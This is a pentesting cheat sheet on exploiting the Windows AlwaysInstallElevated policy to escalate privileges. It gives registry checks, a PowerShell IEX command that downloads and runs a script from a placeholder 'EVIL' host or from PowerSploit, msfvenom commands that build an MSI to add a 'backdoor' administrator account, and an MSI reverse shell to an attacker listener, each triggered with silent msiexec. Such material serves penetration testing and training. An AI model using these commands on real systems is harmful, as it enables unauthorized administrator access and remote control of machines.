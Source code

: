 ## Always Install Elevated

Windows environments provide a group policy setting which allows a regular user to install a Microsoft Windows Installer Package (MSI) with system privileges. This can be discovered in environments where a standard user wants to install an application which requires system privileges and the administrator would  like to avoid to give temporary local administrator access to a user.

## Manual Enumeration

```

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated   

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

```

If the key values are `(0x1)`, then system is vulnerble

## PowerUp
Get https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

In Powershell
```
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")
or
IEX (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1")
```

```
powershell -ep bypass
Import-Module PowerUp.ps1
Get-RegistryAlwaysInstallElevated
```

If the last command returns True, system is vulnerable.


OR if you find the following output in the full output of PowerUp

```

Check         : AlwaysInstallElevated Registry Key
AbuseFunction : Write-UserAddMSI
```


## Exploitation Method 1 - Required GUI/RDP
You can add an admin user by typing the following command.

```
Write-UserAddMSI 
```

You will get a prompt to enter the username and the password for the new user.

## Exploitation Method 2 - MSFVenon Add New User

https://infosecwriteups.com/privilege-escalation-in-windows-380bee3a2842

Generate a msfvenom payload in msi format.

`msfvenom -p windows/adduser USER=backdoor PASS=Pass@1234 -f msi -o setup.msi`

Install the payload using

`msiexec /quiet /qn /i C:\Windows\Temp\setup.msi`

Check that the user was created 

`net localgroup Administrators`

Verify user

`C:\Windows\System32> runas /user:backfoor "dir C:\Users\Administrator"`


## Exploitation Method 3 - MSFVenon Reverse Shell

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi`

Start a listener on attacker machine

Trigger installer

`msiexec /quiet /qn /i reverse.msi`

or

`msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`


### References
https://pentestlab.blog/2017/02/28/always-install-elevated/
